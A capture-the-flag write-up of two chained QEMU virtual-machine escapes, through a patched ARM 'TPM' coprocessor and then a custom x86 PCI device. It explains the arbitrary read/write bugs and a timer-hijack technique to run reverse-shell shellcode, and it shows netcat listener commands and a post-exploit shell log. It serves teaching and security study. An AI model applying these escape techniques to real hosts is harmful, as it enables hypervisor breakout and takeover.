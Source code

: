 #+TITLE: Look at the Totem (500pts)

TL;DR: you can build the [[Dockerfile]] in this directory to recreate my
environment, and test out the exploit scripts. Be patient with the
build, Buildroot downloads/compiles half the internet.

#+begin_src sh
$ docker build -t totem .
$ docker run -it --rm --name totem-run totem
$ cd /src/part1 && ./runvm.sh
# a bunch of stuff goes by here

# in another terminal window
$ docker exec -it totem-run nc -lvvvvp 4444

# in yet another terminal window
$ docker exec -it -w /src/part1 totem-run ./runexploit.sh
#+end_src

* Description and Hints

#+begin_quote
What's at the top of the Totem? Let's grab our climbing gear and find
out. Building this monolith takes a bit of time. Please allow a minute
for everything to boot.
#+end_quote

To start, we're given a statically-linked =qemu-system-arm= binary,
based on QEMU 2.11

#+begin_src text
$ ./qemu-system-arm -version
QEMU emulator version 2.11.0 (v2.11.0-dirty)
Copyright (c) 2003-2017 Fabrice Bellard and the QEMU Project developers
#+end_src

Hints:
- QEMU escapes have a lot of [[http://www.phrack.org/papers/vm-escape-qemu-case-study.html][research]] [[https://vishnudevtj.github.io/notes/qemu-vm-escape-cve-2019-14378][online]]
- QEMU is not running within KVM.

* Patched  =qemu-system-arm= escape
** Orientation

When we start the challenge, we're given =root= SSH credentials for a
specified server, and the hostname of a second server, without
credentials. Logging into the first server, we find a single file in
=root='s home directory: =tpmutil=. Poking around a bit more, we see that
the system is running a pretty minimal [[https://buildroot.org/][Buildroot]] Linux image,
(probably) running on the provided =qemu-system-arm= emulator

#+begin_src text
$ ssh -p <challenge port> root@<challenge host1>
# pwd
/root
# ls
tpmutil
# uname -a
Linux buildroot 4.19.16 #1 Mon Nov 25 01:50:50 EST 2019 armv5tejl GNU/Linux
# cat /proc/cpuinfo
processor       : 0
model name      : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 740.96
Features        : swp half thumb fastmult edsp java
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : ARM-Versatile (Device Tree Support)
Revision        : 0000
Serial          : 0000000000000000
# cat /etc/os-release
NAME=Buildroot
VERSION=2019.02.7
ID=buildroot
VERSION_ID=2019.02.7
PRETTY_NAME="Buildroot 2019.02.7"
# ./tpmutil -h
Super TPM Utility - version 0.2.9

  Welcome to the most advanced password manager on the market. Super TPM Utility
  ensures your passwords are not vulnerable to theft by storing them in the
  CPU's Trusted Platform Module (TPM). With our proprietary TPM support, no
  other password manager even comes close!

Usage:
  tpmutil add password
    - Stores a new password in the TPM
  tpmutil delete tag
    - Removes the password associated with the specified tag
  tpmutil edit tag new_password
    - Modifies the password associated with the specified tag
  tpmutil get tag
    - Prints out the password associated with the specified tag
  tpmutil search tag_suffix
    - Lists any tags that match the 4 character suffix
#+end_src

To begin, I =scp='d the =tpmutil= binary to my local machine, and followed
the guide [[http://people.redhat.com/~thuth/blog/general/2019/01/28/buildroot.html][here]] to make a small ARM Linux image I could run with the
target =qemu-system-arm= binary. I added SSH (=dropbear=) to the image to
quickly deploy/run exploit code. See the [[Dockerfile]] in this
directory.

** TPM Implementation/Vulnerabilities

Looking at =tpmutil= in Ghidra, we immediately see some unrecognized
instructions in the disassembly listing (interestingly, the decompiler
recognizes this as =coprocessor_moveto=).

[[./img/tpm_listing.png]]

The [[https://web.eecs.umich.edu/~prabal/teaching/eecs373-f11/readings/ARMv7-M_ARM.pdf][ARM processor manual]] shows us this is an =MCR2= instruction:

[[./img/mcr2.png]]

I wrote a [[./part1/decode_mcr.py][script]] to decode these instructions:

#+begin_src text
add   : {'opc1': 0, 'CRn': 2, 'Rt': 1, 'coproc': 4, 'opc2': 0, 'CRm': 0}
delete: {'opc1': 0, 'CRn': 0, 'Rt': 0, 'coproc': 4, 'opc2': 1, 'CRm': 8}
edit  : {'opc1': 0, 'CRn': 2, 'Rt': 1, 'coproc': 4, 'opc2': 3, 'CRm': 8}
get   : {'opc1': 0, 'CRn': 2, 'Rt': 1, 'coproc': 4, 'opc2': 2, 'CRm': 8}
search: {'opc1': 0, 'CRn': 1, 'Rt': 2, 'coproc': 4, 'opc2': 4, 'CRm': 2}
#+end_src

So the TPM appears to the guest as a "coprocessor". The
=qemu-system-arm= binary has the following symbols related to the TPM:

#+begin_src text
$ readelf -s qemu-system-arm | grep super_tpm
  9771: 000000000058d68b   158 FUNC    LOCAL  DEFAULT    6 gen_helper_super_tpm_add
  9772: 000000000058d729   138 FUNC    LOCAL  DEFAULT    6 gen_helper_super_tpm_del
  9773: 000000000058d7b3   178 FUNC    LOCAL  DEFAULT    6 gen_helper_super_tpm_get
  9774: 000000000058d865   178 FUNC    LOCAL  DEFAULT    6 gen_helper_super_tpm_edit
  9775: 000000000058d917   178 FUNC    LOCAL  DEFAULT    6 gen_helper_super_tpm_sear
 40202: 00000000005a602d   573 FUNC    GLOBAL DEFAULT    6 disas_arm_super_tpm
 43086: 00000000005b5c5a   579 FUNC    GLOBAL DEFAULT    6 helper_super_tpm_add
 44145: 00000000005b6084   626 FUNC    GLOBAL DEFAULT    6 helper_super_tpm_get
 45919: 00000000005b64d3   516 FUNC    GLOBAL DEFAULT    6 helper_super_tpm_search
 49727: 00000000005b5ed9   427 FUNC    GLOBAL DEFAULT    6 helper_super_tpm_del
 53616: 00000000005b62f6   477 FUNC    GLOBAL DEFAULT    6 helper_super_tpm_edit
#+end_src

Investigating these functions, we see the hook for the TPM
implementation is in QEMU's TCG (tiny code generator) translation
code, which is invoked when QEMU is translating new basic blocks from
ARM code into TCG intermediate representation, to ultimately be JIT'd
and run on the host x86 processor. [[https://www.csd.uoc.gr/~hy428/reading/qemu-internals-slides-may6-2014.pdf][These]] slides serve as a pretty good
overview of QEMU's architecture, and [[https://git.qemu.org/?p=qemu.git;a=blob_plain;f=tcg/README;hb=HEAD][this]] document explains TCG in
some more detail.

=disas_arm_super_tpm= handles each =MCR2= instruction by inspecting its
parameters (which indicate whether this is an "add", "update", etc)
and emitting a call to a "helper" function in the translated block.
[[https://fulcronz27.wordpress.com/2014/06/09/qemu-call-a-custom-function-from-tcg/#pattern][This]] blog describes the TCG "helper function" facility pretty well.

The =helper_super_tpm_get= function provides an arbitrary read of host
memory to the guest, via a stack overflow vulnerability. It takes the
value of the =CRm= parameter from the =MCR2= instruction as the number of
bytes to copy from the "tag" buffer, and seemingly expects a maximum
=CRm= value of 8. By providing a larger =CRm= value, we can overflow into
an indexing parameter used to indicate a matching =TPMEntry= for the
requested tag. Here's my annotated decompilation from Ghidra:

[[./img/tpm_get.png]]

The =helper_super_tpm_edit=  function has a similar arbitrary write vulnerability.

** Exploit

To break out of the ARM VM, we can upload a [[./part1/exploit.c][C program]] with the
appropriate =MCR2= instructions to trigger the arbitrary read/write
vulnerabilities.

Using the R/W primitives, we employ the technique from [[https://vishnudevtj.github.io/notes/qemu-vm-escape-cve-2019-14378#orgf2b8ad3][one of the
referenced articles]] to get code execution in the host. We install a
fake =QEMUTimerList= with an entry that corresponds to an "expired"
timer, with a callback function of our choosing. The callback will be
invoked with an "=opaque=" pointer argument that we also provide in the
=QEMUTimer= struct. This gives us an arbitrary call primitive /in the
host QEMU process/.

I use the arbitrary call primitive twice: first to make the TPM entry
buffer executable (via the convenient =qemu_mprotect_rwx= function),
then again to transfer execution to some shellcode. Because
=qemu_mprotect_rwx= takes /two/ arguments, I used the =qemu_set_irq=
function as my callback in the =QEMUTimer=, which invokes a specified
function with multiple controlled arguments. I got that technique from
[[https://dangokyo.me/2018/03/19/qemu-escape-part-6-put-everything-together-another-trial/][this]] writeup.

While reversing I found it helpful to have a debug build of the legit
=qemu-system-arm= v2.11 available for comparison to the challenge
binary. It helped determine structure offsets when annotating the
binary in Ghidra and recreating structs in my exploit. E.g. to get the
offset of the =handler= member of the =IRQState= struct:

#+begin_src text
$ cd /src/part1/qemu-debug-build/arm-softmmu
$ gdb ./qemu-system-arm
(gdb) p &((struct IRQState*)0)->handler
$1 = (qemu_irq_handler *) 0x28
#+end_src

[[./part1/reverse_shell.nasm][My shellcode]] gave me a shell on the host.

** Post-exploit
When we get our reverse shell, we see we're running as a user named
=arm=, and there's a file named =pass= in the current directory
(=/challenge/arm=) that gives us the creds to the second VM in the
challenge. =ps= shows us the command the second VM is being run with,
and also that it is running as =root=. We have access to that qemu
binary as well; I threw the exploit again and used a little [[./part1/fetch_qemu_binary.py][receiver
script]] to catch the reverse shell and write the binary to a local
file.

Here's a log of my poking around on the challenge server. I've added =$=
"prompts" to distinguish commands I've entered from their output

#+begin_src text
[drewbarbs@localhost] $ nc -lvvvvp 35235
Listening on [0.0.0.0] (family 2, port 35235)
Connection from <challenge host> 35770 received!
$ id
uid=1000(arm) gid=1000(arm) groups=1000(arm)
$ ls
arm.sh
efi-rtl8139.rom
pass
qemu-system-arm
qemu-system-x86_64
rootfs.ext2
versatile-pb.dtb
zImage
$ pwd
/challenge/arm
$ ls /challenge
arm
run.sh
x86
$ ls /challenge/x86
ls: cannot open directory '/challenge/x86': Permission denied
$ cat /challenge/run.sh
#!/bin/bash
su -c "nohup /challenge/arm/arm.sh > /dev/null 2>&1" arm &
/challenge/x86/x86.sh > /dev/null 2>&1
$ ps -Aef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 18:15 ?        00:00:00 /bin/bash /challenge/run.sh
root         6     1  0 18:15 ?        00:00:00 su -c nohup /challenge/arm/arm.sh > /dev/null 2>&1 arm
root         7     1  0 18:15 ?        00:00:00 /bin/bash /challenge/x86/x86.sh
root         9     7  4 18:15 ?        00:00:08 ./qemu-system-x86_64 -L . -kernel bzImage -drive file=rootfs.ext2,format=raw -append root=/dev/sda -serial none -monitor none -display none -net nic,model=rtl8139 -net nic -net user,hostfwd=tcp::5556-:22 -no-reboot -device pwn
arm         11     6  0 18:15 ?        00:00:00 bash -c nohup /challenge/arm/arm.sh > /dev/null 2>&1
arm         12    11  0 18:15 ?        00:00:00 /bin/bash /challenge/arm/arm.sh
arm         14    12 62 18:15 ?        00:01:58 [sh]
arm         32    14  0 18:18 ?        00:00:00 ps -Aef
$ cat pass
<creds to second VM>
#+end_src

* Patched =qemu-system-x86_64=

** Orientation
Using the credentials obtained above, we SSH into the second VM and
find pretty much nothing in it other than another minimal buildroot
filesystem. This time, =root='s home directory is empty (no obvious
starting point like =tpmutil=).

Looking at the command line for =qemu-system-x86_64= on the challenge
host, we notice the =-device pwn= option. Sure enough, there are some
corresponding symbols in the =qemu-system-x86_64= binary (again based on
QEMU v2.11.0):

#+begin_src text
$ ./qemu-system-x86_64 -version
QEMU emulator version 2.11.0 (v2.11.0-dirty)
Copyright (c) 2003-2017 Fabrice Bellard and the QEMU Project developers
$ readelf -s qemu-system-x86_64 | grep pwn_
  9289: 00000000005cabd0    12 FUNC    LOCAL  DEFAULT    6 pci_pwn_register_types
  9290: 00000000010ae420   104 OBJECT  LOCAL  DEFAULT   19 pwn_info.27884
  9291: 00000000005cabe0    94 FUNC    LOCAL  DEFAULT    6 pwn_class_init
  9293: 00000000005cb010   216 FUNC    LOCAL  DEFAULT    6 pci_pwn_realize
  9294: 00000000005cac40   367 FUNC    LOCAL  DEFAULT    6 pwn_mmio_read
  9295: 00000000005cadb0   265 FUNC    LOCAL  DEFAULT    6 pwn_mmio_write
  9296: 00000000005caec0    17 FUNC    LOCAL  DEFAULT    6 pwn_obj_uint64
  9297: 00000000005caee0    43 FUNC    LOCAL  DEFAULT    6 pwn_raise_irq.part.1
  9298: 00000000005caf10   249 FUNC    LOCAL  DEFAULT    6 pwn_fact_thread
  9299: 00000000005cb1e0   352 FUNC    LOCAL  DEFAULT    6 pwn_dma_timer
  9300: 00000000010ae4a0   136 OBJECT  LOCAL  DEFAULT   19 pwn_mmio_ops
  9301: 00000000005cb0f0   167 FUNC    LOCAL  DEFAULT    6 pwn_instance_init
  9303: 00000000005cb1a0    63 FUNC    LOCAL  DEFAULT    6 pwn_check_range.constprop
  9304: 000000000040ad30    17 FUNC    LOCAL  DEFAULT    6 do_qemu_init_pci_pwn_regi
 35555: 00000000012ac000   120 OBJECT  GLOBAL DEFAULT   27 pwn_bufs
#+end_src

At this point, I remembered a [[https://david942j.blogspot.com/2019/10/official-write-up-hitcon-ctf-quals-2019.html][writeup]] I'd read about a challenge from
HITCON 2019 that featured a QEMU instance with a vulnerable custom
device. In that writeup, the author describes writing a kernel driver
to talk to the custom device, which almost had me going down that
route. Fortunately, I discovered [[https://uaf.io/exploitation/2018/11/22/Hitb-2017-babyqemu.html][a writeup for a similar challenge]]
that used [[https://www.kernel.org/doc/Documentation/filesystems/sysfs-pci.txt][sysfs-pci]] to perform memory-mapped I/O with the PCI device
from a small userspace application.

We can see the =pwn= device is in PCI bus 0, slot 05 in =lspci=:

#+begin_src text
# lspci -k
00:01.0 Class 0601: 8086:7000
00:04.0 Class 0200: 8086:100e
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 10ec:8139 8139cp
00:01.1 Class 0101: 8086:7010 ata_piix
00:02.0 Class 0300: 1234:1111 bochs-drm
00:05.0 Class 00ff: 0003:1337 # <-- yup, that's the one
#+end_src

If we open the corresponding =sysfs= file and =mmap= it, we can hit the
=pwn_mmio_{read,write}= routines by reading/writing the =mmap='d buffer
in the guest:

#+begin_src c
int main(int argc, char *argv[])
{
  int fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);
  if (fd == -1)
    die("open");
  unsigned char *iomem = mmap(NULL, REGION_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
  if (iomem == MAP_FAILED)
    die("mmap");

  // trigger pwn_mmio_read
  iomem[0];

  // trigger pwn_mmio_write
  iomem[0] = 0xFF;

  //...
#+end_src

Again, the source for QEMU v2.11.0 was helpful to figure out what
API's the patched code is leveraging to create the PCI device. For
example, the =REGION_SIZE= is a parameter passed to
=memory_region_init_io= in the =pci_pwn_realize= function

[[./img/pci_pwn_realize.png]]

** =pwn= Device Vulnerability

Looking at the =pwn_mmio_{read,write}= functions, we see that if the
byte at offset 0x1c60 in the device instance is non-zero, then we can
read from/write to arbitrary host addresses. I call this field =use_ptr=
in the decompilation below. I appended =?= to field names because I was
living with a lot of uncertainty at the time I reversed.

In the decompilation of the =pwn_mmio_write= function, we see that the
most-significant nibble of the 24 bit offset into the MMIO range for
the device is significant, as is the state of the byte at 0x1c60. As I
note in my annotation, we can set the byte at 0x1c60 by triggering the
=snprintf= path.

[[./img/pwn_mmio_write.png]]

Note that the =pwn_fact_thread= is irrelevant to the challenge. It's
probably just left over from using the [[https://github.com/qemu/qemu/blob/1b8c45899715d292398152ba97ef755ccaf84680/hw/misc/edu.c#L314][=edu= device]] in the QEMU source
tree as a starting point for the =pwn= device.

** Exploit

Once we have the arbitrary read/write primitives down, [[./part2/exploit.c][the exploit
code]] is pretty much the same as for the ARM VM: we stage the same
reverse shell shellcode in a buffer in the host QEMU process (this
time, I put it in the =PWNDevice= struct), call =mprotect= to make it
executable, and jump to it.

When we throw the exploit against the x86-64 challenge VM, we get a
root shell and can =cat= the flag.
